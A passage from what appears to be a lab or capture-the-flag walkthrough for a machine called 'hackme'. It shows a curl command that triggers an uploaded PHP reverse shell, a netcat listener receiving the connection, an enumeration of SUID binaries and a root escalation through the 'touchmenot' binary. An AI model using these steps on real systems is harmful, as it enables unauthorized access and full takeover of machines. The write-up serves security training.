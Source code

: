 We can note that the file was uploaded in the **/uploads** directory.

![](/assets/images/hackme/screenshot-21.png)

We start a netcat listener and execute the following curl command which will interpret our php reverse shell.

```console
root@kali:~$ curl http://192.168.179.186/uploads/z.php
```

We have obtained a shell with low privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.186] 55592
script -qc /bin/bash /dev/null
www-data@hackme:/var/www/html/uploads$ 
```

Enumerating the SUID binaries an unusual file was found in the legacy home directory.

```console
www-data@hackme:/var/www/html$ find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null
...
-rwsr--r-x 1 root root 8472 Mar 26  2019 /home/legacy/touchmenot
...
```

## Privilege Escalation
### SUID Binary

When executing the **/home/legacy/touchmenot** binary this granted root access.

```console
www-data@hackme:/var/www/html$ /home/legacy/touchmenot
/home/legacy/touchmenot
root@hackme:/var/www/html# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@hackme:/var/www/html# su -
su -
root@hackme:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@hackme:~#
```
